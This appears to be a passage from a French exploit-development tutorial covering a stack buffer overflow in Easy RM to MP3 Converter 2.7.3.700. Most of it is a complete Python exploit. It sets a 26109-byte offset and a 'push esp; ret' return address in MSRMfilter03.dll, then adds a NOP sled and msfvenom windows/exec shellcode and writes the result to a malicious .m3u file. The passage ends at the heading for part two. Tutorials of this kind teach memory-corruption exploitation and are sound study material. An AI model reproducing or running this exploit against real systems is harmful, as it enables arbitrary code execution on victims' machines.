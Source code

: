 ``` text
           [12:26:32] Thread 000005F4 terminated, exit code 0
```

On trouve une adresse de retour utilisable: **0x1001b058**. L'exploit final:

``` python
#!/bin/env python
# Exploit Title: Stack Overflow in Easy RM to MP3 Converter
# Date: 18/04/2016
# Exploit Author: Arnaud Abramovici
# Vendor Homepage: [link]
# Software Link: [download link if available]
# Version: 2.7.3.700
# Tested on: Windows 7 SP1 Ultimate (Should work on every version)

# Exploit information
# Offset: 26109
# Return address: 0x1001b058 (push esp # ret in MSRMfilter03.dll)
# Payload: msfvenom -p windows/exec CMD=cmd.exe -f py --bad-chars "\x00\x0d\x0a"


offset = 20000 + 6109
ret = '\x58\xb0\x01\x10'
nop = '\x90'
buf =  ""
buf += "\xd9\xcf\xbd\x0f\x30\x90\xb7\xd9\x74\x24\xf4\x58\x29"
buf += "\xc9\xb1\x31\x31\x68\x17\x83\xc0\x04\x03\x67\x23\x72"
buf += "\x42\x8b\xab\xf0\xad\x73\x2c\x95\x24\x96\x1d\x95\x53"
buf += "\xd3\x0e\x25\x17\xb1\xa2\xce\x75\x21\x30\xa2\x51\x46"
buf += "\xf1\x09\x84\x69\x02\x21\xf4\xe8\x80\x38\x29\xca\xb9"
buf += "\xf2\x3c\x0b\xfd\xef\xcd\x59\x56\x7b\x63\x4d\xd3\x31"
buf += "\xb8\xe6\xaf\xd4\xb8\x1b\x67\xd6\xe9\x8a\xf3\x81\x29"
buf += "\x2d\xd7\xb9\x63\x35\x34\x87\x3a\xce\x8e\x73\xbd\x06"
buf += "\xdf\x7c\x12\x67\xef\x8e\x6a\xa0\xc8\x70\x19\xd8\x2a"
buf += "\x0c\x1a\x1f\x50\xca\xaf\xbb\xf2\x99\x08\x67\x02\x4d"
buf += "\xce\xec\x08\x3a\x84\xaa\x0c\xbd\x49\xc1\x29\x36\x6c"
buf += "\x05\xb8\x0c\x4b\x81\xe0\xd7\xf2\x90\x4c\xb9\x0b\xc2"
buf += "\x2e\x66\xae\x89\xc3\x73\xc3\xd0\x89\x82\x51\x6f\xff"
buf += "\x85\x69\x6f\x50\xee\x58\xe4\x3f\x69\x65\x2f\x04\x85"
buf += "\x2f\x6d\x2d\x0e\xf6\xe4\x6f\x53\x09\xd3\xac\x6a\x8a"
buf += "\xd1\x4c\x89\x92\x90\x49\xd5\x14\x49\x20\x46\xf1\x6d"
buf += "\x97\x67\xd0\x0e\x7a\xfc\xf5\xb5\xfc\x99\x09"

# Creating file content
content = nop*offset+ret+nop*100+buf+nop*(30000-4-offset-100-len(buf))

# Creating payload file
f = open('file.m3u','w')
f.write(content)
```

Partie 2: Jumping to shellcode
------------------------------
